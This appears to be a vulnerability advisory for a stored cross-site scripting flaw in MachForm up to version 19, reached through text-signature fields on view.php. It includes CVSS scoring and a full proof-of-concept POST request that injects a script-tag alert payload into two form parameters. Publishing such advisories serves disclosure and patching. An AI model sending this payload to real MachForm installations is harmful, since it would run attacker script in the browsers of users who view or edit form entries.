



# Description
MachForm up to version 19 is affected by an unauthenticated stored cross-stie scripting which affects users with valid sessions whom can view compiled forms results.

In target web application, when using a form with text signature enabled, the request made to the vulnerable resource has been found to be suffering from XSS attack. A parameter of the body's POST request inside vulnerable URL lacks sanitization, this allows malicious payload to be placed and triggers JavaScript code on the victim’s browser. 
# Risk
- Severity: Medium
- CVSS v3.1 Score: 5.4
- CVSS v3.1 Vector: [**AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:L**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:L&version=3.1)
# Affected Resources
- Version: up to MachForm v19
- https://<application-baseurl\>/view.php

The vulnerable parameters are dynamic based on where the text signature component is placed in the form:
- `element_{element_number}_text_signature`
- `element_{element_number}`
# Evidence
It is possible to inject a JavaScript payload in the vulnerable parameters.



Request:
```
POST /view.php HTTP/1.1
Host: application-baseurl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://application-baseurl/
Content-Type: multipart/form-data; boundary=---------------------------6026266881719614557329755478
Content-Length: 1141
Origin: https://application-baseurl
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_1"

test5
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_4_text_signature"

"><script>alert(1)</script>
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_4"

"><script>alert(1)</script>
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_12"; filename=""
Content-Type: application/octet-stream

-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_12_token"

3cc3be6c0c28b67f1c55eb23786b2869
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="form_id"

59032
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="submit_form"

1
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="page_number"

1
-----------------------------6026266881719614557329755478--
```

The payload then triggers in when an authenticated user edits the form result entry.



